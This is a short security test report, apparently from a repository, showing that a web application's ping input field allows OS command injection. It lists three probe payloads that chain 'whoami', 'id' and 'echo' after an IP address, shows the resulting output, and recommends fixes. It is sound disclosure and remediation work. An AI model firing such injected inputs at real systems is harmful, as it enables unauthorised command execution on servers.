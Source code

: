 # Command Injection Vulnerability Test Report

## 1. Objective

The goal of this test was to evaluate whether the `ping` input field in the target web application is vulnerable to command injection attacks, which could allow an attacker to execute arbitrary system commands on the server.

## 2. Methodology

Various payloads were crafted to attempt command chaining after the `ping` command. These payloads were sent through the web form input:

```bash
127.0.0.1; whoami; echo END
127.0.0.1 && id && echo DONE
127.0.0.1; echo test123
```
The inclusion of echo END and echo DONE served as markers to verify if the injected commands executed.

## 3. Observed Results
The server executed the ping command as expected.

Additionally, the injected commands executed successfully, as evidenced by the following output fragments:

The current user, e.g., www-data.

The process ID and group information from id.

Custom marker strings such as END and DONE.

Arbitrary strings such as test123.

Example observed output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.038 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.036 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.050 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.053 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3061ms
rtt min/avg/max/mdev = 0.036/0.044/0.053/0.007 ms
www-data
END


![Injection](Screenshots/Injection.png)

## 4. Analysis
The web application concatenates user input directly into system commands without proper sanitization or validation.

This allows arbitrary OS command execution via injection.

Such vulnerabilities pose a critical security risk, enabling attackers to potentially gain full control over the server.

## 5. Recommendations
Implement strict input validation, allowing only valid IP addresses or hostnames.

Avoid direct concatenation of user inputs into shell commands.

Utilize safe system call APIs that separate command and arguments (e.g., subprocess.run with argument lists in Python).

Apply the principle of least privilege to the web server processes.

Monitor server logs for suspicious command execution attempts.

## 6. Conclusion
The ping input field in the tested application is vulnerable to command injection. Immediate remediation is necessary to prevent potential exploitation and system compromise.

Report generated by [Mohammad,Mohammadi] on [7/8/2025].